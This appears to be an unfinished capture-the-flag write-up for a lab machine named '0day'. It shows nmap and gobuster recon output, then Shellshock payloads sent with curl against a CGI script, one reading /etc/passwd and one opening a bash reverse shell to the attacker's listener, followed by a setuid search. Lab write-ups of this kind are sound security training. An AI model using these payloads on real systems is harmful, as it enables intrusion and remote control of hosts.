


# 0day

## Description


## Recon

To start, let's run nmap:

```
$  nmap -sV -sC -T4 $IP -oN nmap_scan.txt        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 13:47 EDT
Nmap scan report for 10.10.141.218
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol
2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.31 seconds
```

We see that port 22 (ssh) and 80 (http) are open. Note the version of OpenSSH is
an outdated one. Perhaps we can exploit this later?

The website is of a developer's portfolio page:


I checked robots.txt and was greeted with the below message:



No low hanging fruit here! My next course of action was running gobuster to find
any hidden folders.

```
$ gobuster dir -u http://$IP:80 -w
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.218:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/14 13:51:49 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin              (Status: 301) [Size: 315] [--> http://10.10.141.218/cgi-bin/]
/img                  (Status: 301) [Size: 311] [--> http://10.10.141.218/img/]    
/uploads              (Status: 301) [Size: 315] [--> http://10.10.141.218/uploads/]
/admin                (Status: 301) [Size: 313] [--> http://10.10.141.218/admin/]  
/css                  (Status: 301) [Size: 311] [--> http://10.10.141.218/css/]    
/js                   (Status: 301) [Size: 310] [--> http://10.10.141.218/js/]     
/backup               (Status: 301) [Size: 314] [--> http://10.10.141.218/backup/] 
/secret               (Status: 301) [Size: 314] [--> http://10.10.141.218/secret/
                                                                                   
===============================================================
2021/03/14 14:21:45 Finished
===============================================================
```

Lots of interesting folders. The only one that had actionable information was
/backup. 



We see that there is a private RSA key here! An RSA key can be used to log into
SSH without a password.

## Initial Foothold

Get /etc/passwd
```
$ curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd;"
http://$IP/cgi-bin/test.cgi
```

Pop a reverse shell (Assuming you have a netcat listener running on port 4444)

```
$ curl -A "() { :;}; echo Content-Type: text/html; /bin/bash -i >&
/dev/tcp/$YOUR_IP/4444 0>&1" http://10.10.58.205/cgi-bin/test.cgi"})" 
```

## Exploitation


## Privilege Escalation

I used the ```find``` command to look for programs with the setuid bit enabled.
This would allow us to run those commands as the root user.

```
$ find / -perm -u=s -type f 2>/dev/null
...
...
/usr/bin/mtr
...
```

The mtr command is interesting. It has an entry in GTFObins, but I couldn't get
it to read the root file.
